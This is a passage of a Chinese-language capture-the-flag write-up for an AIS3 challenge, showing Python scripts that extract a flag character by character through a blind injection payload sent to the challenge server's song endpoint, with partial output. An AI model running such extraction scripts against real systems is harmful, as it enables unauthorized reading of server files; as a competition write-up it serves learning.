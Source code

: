 ```python=
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
            'Accept-Encoding': 'gzip, deflate',
            'Accept-Language': 'zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7',
            'Connection': 'close'
        }
        r = requests.get(url + payload, headers=headers)

        if true_indicator in r.text:
            flag += chr(c)
            flags.append(flag)  # 將符合條件的flag存儲在列表中
            print(f'找到第{i}個字符: {chr(c)}')
            found_char = True
            break

    if not found_char:
        print('找不到更多字符，結束')
        break

    i += 1

print('讀取的flag:', flags)

```
```
python3 exploitASCII.py
```
![image](https://hackmd.io/_uploads/SJhSvx-NC.png)

> AIS3{CRYCHIC_Funeral_
> 得到一半的Flag

>[!Tip]
> 題目提示: charset: unicode
 

    
在 i=22後(第22個字元後)
我直接把ASCII 改成UNICODE

##### 2. exploitUnicode.py
```python=
import requests

# 目標URL
url = 'http://chals1.ais3.org:11454/song?id=1'
# 文件路徑
file_path = '/flag'
# 已知的flag，預設空字串
flag = ''

# 字元範圍
char_range = list(range(0x0000, 0xFFFF)) 

# 確認的標誌，當條件為True時，網頁回應中的標誌
true_indicator = 'MyGO!!!!!<br>'

print("開始讀取flag...")

# 存儲所有滿足條件的flag
flags = []

# 從第22個字元開始猜測
```